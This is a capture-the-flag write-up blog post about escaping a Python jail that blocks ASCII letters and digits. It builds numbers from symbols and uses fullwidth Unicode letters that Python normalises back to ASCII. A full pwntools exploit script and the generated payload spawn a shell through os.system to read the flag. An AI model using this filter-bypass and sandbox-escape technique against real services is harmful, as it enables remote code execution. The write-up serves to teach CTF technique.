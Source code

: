 ```yaml
---
layout: '../../layouts/BlogPost.astro'
title: pyjail escape without ascii characters and numbers - bluehens writeup
publishDate: 2023-11-1
description: writeup for bluehens 2023
tags: ['writeup', 'python', 'pyjail']
permalink: https://halb.it/posts/bluehens-pyjail/
---
```


### the challenge

The challenge code consisted in a very short python script, running behind netcat

```python
blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

security_check = lambda s: any(c in blacklist for c in s) or s.count('_') > 50

while True: 
    cmds = input("> ")
    if security_check(cmds):
        print("nope.")
    else:
        exec(cmds, {'__builtins__': None}, {})
    
```

For the uninitialized, this is a very common pyjail setup:

- The `security_check` function makes sure the user input does not contain any ascii letter or number

- if the input is valid, it is executed in an environment without any builtin

- By looking at the challenge Dockerfile, it's clear that our goal is to read the `/flag` file and print it

### python without letters or numbers

The Javascript language can be written using only combinations of the symbols `[]()!+` in a dialect known as [jsfuck](https://jsfuck.com).
Unfortunately python does not reach these levels of greatness, but it can get close thanks to some quirks of it's implicit type conversion system:

- `False` => `[] > []`
- `True`  => `[[]] > []`
- `0` => `-([] > [])`
- `-1` => `~([] > [])`
- `1` => `-~([] > [])`
- `2` => `1+1` =>  `(-~[]<[])+(-~([]<[])) `

With some creativity, it's easy to create any number. There is the possibility for a lot of fancy optimizations if you are allowed to use `*, <<, >>` or other operators. The current challenge however does not have a payload size constraint, so we'll fight the urge to find an optimal solution, and keep everything as simple as possible

```python
def craft_num(n):
    """
    craft symbol-only numbers, in an inefficient way
    """
    str_0 = "-([]<[])"
    str_1 = "(-~([]<[]))"
    if n == 0:
        return str_0
    ret = f"{str_1}+" * n
    return ret[:-1]
```

Unfortunately this is where we meet a wall, because python3 does not offer any way to create strings or execute statements with symbols only.
That was only possible in the age of python2 thanks to the 
backtick
(&#96;)
operator, now removed from the standard, that acted as an alias for the `repr()` function.

### filter bypass using utf-8 identifiers

If python3 broke the dream of a symbols-only python dialect, it also brought 
UTF-8 identifiers to the standard.
In our case, that feature is good enough to bypass the no-ASCII filter.<br/>
According to [the reference](https://docs.python.org/3/reference/lexical_analysis.html#identifiers):

> Python 3.0 introduces additional characters from outside the ASCII rannge. [...]
All identifiers are converted into the normal form NFKC while parsing; comparison of identifiers is based on NFKC.

what does that mean?
The Unicode standard supports the concept of [equivalence](https://www.wikiwand.com/en/Unicode_equivalence#/Normal_forms).
If we look at this useful page for the [codepoint for the letter a](https://www.compart.com/en/unicode/U+0061) for example,
we can see a long list of symbols that are declaratively similar in appearance or meaning to the ASCII letter 'a'.<br/> Here are some examples:

- U+1D4B6 𝒶 Mathematical Script Small A
- U+1D4EA 𝓪 Mathematical Bold Script Small A
- U+1D552 𝕒 Mathematical Double-Struck Small A
- U+1D586 𝖆 Mathematical Bold Fraktur Small A

All these fancy codepoints will be converted into the correct ASCII letter when [normalized](https://unicode.org/reports/tr15/#Norm_Forms), which is an operation that python3 performs before parsing an identifier.

And that's it! A lot of words just to say that we can bypass the filter by converting all the ASCII letters in our exploit into italics!<br/>
The following function automates the operation by converting every ASCII letter into the equivalent
[ｆｕｌｌｗｉｄｔｈ ｌｅｔｔｅｒｓ](https://www.compart.com/en/unicode/U+FF41)

```python
def denormalize(str):
    ret = ""
    for c in str:
        if c >= "a" and c <= "z":
            # https://www.compart.com/en/unicode/U+FF41
            # weird fullwidth a
            # the first of a sequence of codepoints compatible with ASCII letters
            weird_a = 0xff41
            offset = ord(c) - ord("a")
            ret += chr(weird_a + offset)
        else:
            ret += c

    # replace all underscores that are not at the beginning of an identifier with
    # https://www.compart.com/en/unicode/U+FF3F
    # fullwidth underscore
    ret = re.sub(r"(?<![\.\[\( ])_", chr(0xff3f), ret)

    return ret
```

### escaping the pyjail

Now that we have the ability to fully bypass the filter, we can write a classic pyjail escape payload and send it. This is the end result:

```python
from pwn import *
import re


def craft_num(n):
    """
    craft symbol-only numbers, in an inefficient way
    """
    str_0 = "-([]<[])"
    str_1 = "(-~([]<[]))"
    if n == 0:
        return str_0
    ret = f"{str_1}+" * n
    return ret[:-1]


def denormalize(str):
    ret = ""
    for c in str:
        if c >= "a" and c <= "z":
            # https://www.compart.com/en/unicode/U+FF41
            # weird fullwidth a
            # the first of a sequence of codepoints compatible with ASCII letters
            weird_a = 0xff41
            offset = ord(c) - ord("a")
            ret += chr(weird_a + offset)
        else:
            ret += c
    # replace all underscores that are not at the beginning of an identifier with
    # https://www.compart.com/en/unicode/U+FF3F
    # fullwidth underscore
    ret = re.sub(r"(?<![\.\[\( ])_", chr(0xff3f), ret)
    return ret


def craft_os_str():
    """
    payload for generating the string "_os"
    """
    underscore_str = f"().__init__.__name__[{craft_num(0)}]"
    s_str = f"[].__doc__[{craft_num(17)}]"
    br = "{}"
    o_str = f"{br}.__class__.__base__.__doc__[{craft_num(15)}]"
    os_str = f"({underscore_str})+({o_str})+({s_str})"
    return os_str


def craft_bash_str():
    """
    payload for generating the string "$0"
    which in the challenge environment is equivalent to
    the command "/bin/sh"
    """
    num_0_str = f"({craft_num(0)}).__doc__[{craft_num(33)}]"
    bash_str = f"'$'+({num_0_str})"
    return bash_str


expl_find_FileLoader = f"().__class__.__base__.__subclasses__()[{craft_num(118)}]"
expl_find_os_module  = f"{expl_find_FileLoader}.__init__.__globals__[{craft_os_str()}]"
expl_shell           = f"{expl_find_os_module}.system({craft_bash_str()})"

expl = expl_shell
expl = denormalize(expl)

print(expl)

conn = remote("localhost", 1337)
conn.sendlineafter(">", expl.encode())
conn.interactive()

```

when we execute the script, it will generate this huge payload:

```
()._＿ｃｌａｓｓ＿＿._＿ｂａｓｅ＿＿._＿ｓｕｂｃｌａｓｓｅｓ＿＿()[((-~([]<[]))<<((-~([]<[]))<<-([]<[])))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[]))))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))))+((-~([]<[]))<<((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))))]._＿ｉｎｉｔ＿＿._＿ｇｌｏｂａｌｓ＿＿[(()._＿ｉｎｉｔ＿＿._＿ｎａｍｅ＿＿[-([]<[])])+({}._＿ｃｌａｓｓ＿＿._＿ｂａｓｅ＿＿._＿ｄｏｃ＿＿[((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<-([]<[])))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[]))))+((-~([]<[]))<<((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<-([]<[]))))])+([]._＿ｄｏｃ＿＿[((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))))])].ｓｙｓｔｅｍ('$'+((-([]<[]))._＿ｄｏｃ＿＿[((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))))]))

```

Then pwntools will automatically send the payload and open an interactive shell, from which we can just `cat /flag`

### the rest of the owl

If you are confused by all those underscores,
I suggest you to look up the basics of classic pyjail escapes.
[Others](https://blog.pepsipu.com/posts/albatross-redpwnctf), far better than me, have explained that magic

